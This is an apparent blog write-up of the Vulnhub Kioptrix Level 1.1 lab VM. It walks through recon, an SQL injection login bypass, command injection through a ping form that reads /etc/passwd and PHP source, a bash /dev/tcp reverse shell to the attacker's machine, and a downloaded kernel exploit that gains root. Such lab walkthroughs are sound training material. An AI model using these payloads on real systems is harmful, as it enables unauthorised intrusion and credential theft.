




Vulnhub - Kioptrix 1.1 (#2)
Kioptrix level 2, here we go! Follow along by grabbing the VM on https://www.vulnhub.com/entry/kioptrix-level-11-2,23/. Make sure to download the level 2 - updated version as the first release had a bug in the web application.
The goal is the same than the previous one: get root by any possible mean.
Fixing the network
As the previous Kioptrix, the network wasn’t working out of the box for me.
-
Shut down the VM
-
Edit the
CentOs4.5.vmxfile and replace:ethernet0.connectionType = "bridged"with:
ethernet0.connectionType = "NAT" -
Start the VM
Get the IP of the VM
Run arp-scan from your kali box:
$ sudo arp-scan 172.16.149.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:fd:2b:71, IPv4: 172.16.149.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
172.16.149.1 00:50:56:c0:00:08 VMware, Inc.
172.16.149.2 00:50:56:fd:11:d0 VMware, Inc.
172.16.149.131 00:0c:29:d1:f5:b9 VMware, Inc.
172.16.149.254 00:50:56:fe:b1:9f VMware, Inc.
4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.069 seconds (123.73 hosts/sec). 4 responded
The target VM has IP 172.16.149.131.
Recon
Extracting the archive already gives us the OS: CentOs 4.5
Let’s run nmap to discover the services:
$ sudo nmap -T4 -p- -A -oA nmap_tcp 172.16.149.131
List of services and ports:
| Port | Service and Version |
|---|---|
| 22 | OpenSSH 3.9p1 (protocol 1.99) |
| 80 | Apache httpd 2.0.52 ((CentOS)) |
| 111 | rpcbind 2 (RPC #100000) |
| 631 | CUPS 1.1 |
| 856 | 1 (RPC #100024) |
| 3306 | mysql |
22 SSH
I started running a SSH brute-force in the background, just in case it gets somewhere:
$ hydra -l root -P /usr/share/wordlists/rockyou.txt -t 4 -V ssh://172.16.149.131
Spoiler: it didn’t work ~~
Looking for CVEs with public exploits didn’t turn up anything interesting either.
Looks like a dead end… Let’s go and poke something else :D
80/443 Apache server
What do we know so far?
- Apache 2.0.52 (centOS)
- PHP/4.3.9 from the HTTP header
X-Powered-By
Login Form

Checking the source code of the page:
<!-- Start of HTML when logged in as Administator -->
Username might be Administrator ? Administator ? I tried a bunch of default login/passwords, nothing :(
Next, I started a nikto and gobuster scans in the background while I poke other stuff:
nikto scan:
$ nikto -output=nikto.txt -host http://172.16.149.131
gobuster scan:
$ gobuster dir -o gobuster.txt -u http://172.16.149.131 -w /usr/share/dirb/wordlists/common.txt
What if there’s an interesting CVE for apache 2.0.52? Couldn’t find anything :(
Maybe a SQL injection then? We know the database is a mysql (from the Nmap scan), let’s try a basic SQLi:
' or 1=1#
This input in the username field lets us pass the authentication page /o/
The Basic Administrative Web Console

We know have access to a utility to ping a machine on the network:

Behind the scenes, the command used probably looks like:
ping -c 3 <ip>
Can we do more than ping though? Let’s checkout a few command injection techniques:
172.16.149.131; cat /etc/shadow172.16.149.131 && cat /etc/shadow172.16.149.131 $(cat /etc/shadow)
No luck getting these to work. Then I realized that maybe I should be running commands that don’t require privileges…
; cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
; whoami
apache
So, we are running commands as apache, which explains why we can’t just cat /etc/shadow…
A ls and a cat in the current directory allows us to peek at the php source code:
; cat index.php
<?php
mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
//print "Connected to MySQL<br />";
mysql_select_db("webapp");
if ($_POST['uname'] != ""){
$username = $_POST['uname'];
$password = $_POST['psw'];
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
//print $query."
";
$result = mysql_query($query);
$row = mysql_fetch_array($result);
//print "ID: ".$row['id']."
";
}
?>
Some creds here for mysql: john:hiroshima, let’s take a note of that somewhere.
And pingip.php is exactly what we thought:
; cat pingit.php
<?php
';
echo shell_exec( 'ping -c 3 ' . $target );
echo '
'; } ?>
Okay, let’s setup a reverse shell so we don’t have to use the webpage for every command!
Run a listening netcat on the kali box:
kali@kali:~$ nc -lvp 80
Use this input in the “administrative web console”:
; bash -i >& /dev/tcp/172.16.149.129/80 0>&1

Enjoy your shell on the kali box !
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
From Apache to root
After a bit of looking around, I couldn’t find any other way to escalate my privileges to root without using a kernel exploit. In general, you want to avoid those, as they are not super stable and tend to crash the target. which is okay on a CTF, less okay IRL…
Anyway, here goes the nuclear option: looking for kernel exploits on exploit-db:
kali@kali:~$ searchsploit Linux 2.6
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' Local Privilege Escalation | exploits/linux/local/9545.c
Great, a local privilege escalation, sounds perfect. Let’s download the source code on the target:
bash-3.00$ wget https://www.exploit-db.com/raw/9545
--15:33:54-- https://www.exploit-db.com/raw/9545
=> `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
OpenSSL: error:1407742E:SSL routines:SSL23_GET_SERVER_HELLO:tlsv1 alert protocol version
Unable to establish SSL connection.
Ah. A wget or curl directly from exploit-db will not work… That box is very old :‘D
No problemo, I’ll just encode the exploit into base64 and paste it on the box!
bash-3.00$ cat 9545.b64 | base64 -d > 9545.c
bash: base64: command not found
bash: [13447: 4] tcsetattr: Invalid argument
Okay, no base64… Let’s look for something else then…
WHAT KIND OF BOX HAS PYTHON BUT NOT BASE64.
Okay, nevermind, let’s do that the other way. Start a web server on the kali, download the exploit there and expose it:
kali@kali:~$ cd /tmp
kali@kali:/tmp$ get https://www.exploit-db.com/raw/9545
kali@kali:/tmp$ python -m SimpleHTTPServer 80
Then use wget on the target to download the exploit from our fresh web server:
bash-3.00$ cd /tmp
bash-3.00$ wget 172.16.149.129/9545
--18:12:24-- http://172.16.149.129/9545
=> `9545'
Connecting to 172.16.149.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6,087 (5.9K) [application/octet-stream]
0K ..... 100% 8.90 MB/s
18:12:24 (8.90 MB/s) - `9545' saved [6087/6087]
Wuhuuu, we’ve finally managed to transfer the exploit on the box. Next is compilation:
bash-3.00$ gcc 9545.c -o 9545
Then run the fresh-from-the-oven binary:
bash-3.00$ ./9545
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
Well, I’m impressed. A kernel exploit that works on the first try without crashing the box?! :o
Takeaways:
- Try your command injection with commands that don’t require privileges
- Running a web server on the kali box can be a solution to exchange files with the target.
There it is gentlepeople, see you around for the next kioptrix box!
Links
- Very good cheat sheet on command injection, check out the rest of the repo also, it’s a gold mine
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
- Another cheat sheet on reverse shell: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet